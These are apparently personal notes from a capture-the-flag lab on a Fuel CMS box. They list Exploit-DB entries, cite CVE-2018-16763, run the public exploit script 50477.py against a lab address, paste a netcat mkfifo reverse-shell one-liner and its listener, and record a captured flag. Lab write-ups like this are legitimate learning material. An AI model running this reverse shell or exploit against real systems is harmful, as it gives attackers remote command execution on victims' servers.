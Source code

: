 Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                                                                    | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                                                        | php/webapps/48778.txt
Fuel CMS 1.5.0 - Cross-Site Request Forgery (CSRF)                                                                                      | php/webapps/50884.txt

![[Pasted image 20250629120211.png]]

---

<summary>3. 🚨 Vulnerability Analysis</summary>

- **Identified Vulnerabilities**: 
  - Description: Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)
  - CVE/Exploit DB Ref: [2018-16763](https://nvd.nist.gov/vuln/detail/CVE-2018-16763)
- **Tool(s) Used**: 

- python3 50477.py -u http://10.10.230.102/

![[Pasted image 20250629121047.png]]

- from https://www.revshells.com/ nc mkfifo: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.102.108 9001 >/tmp/f

 ![[Pasted image 20250629121128.png]]
 
 
- **Proof/Output**:
  - Command results, error messages, etc.

---


<summary>4. 💣 Exploitation</summary>

- **Tool(s) Used**: netcat
- **Exploit/Payload**:
  - Command: 
- **Result**:
	
	- on local machine `nc -lvnp 9001
	
	got into webserver using a revershell
	
	![[Pasted image 20250629121216.png]]
	
	find / -name flag.txt - /home/www-data/flag.txt
	cat /home/www-data/flag.txt - 6470e394cbf6dab6a91682cc8585059b
	
- **Post-Exploitation Notes**:
  - E.g., accessed user.txt
- **Proof**:

![[Pasted image 20250629122323.png]]

---
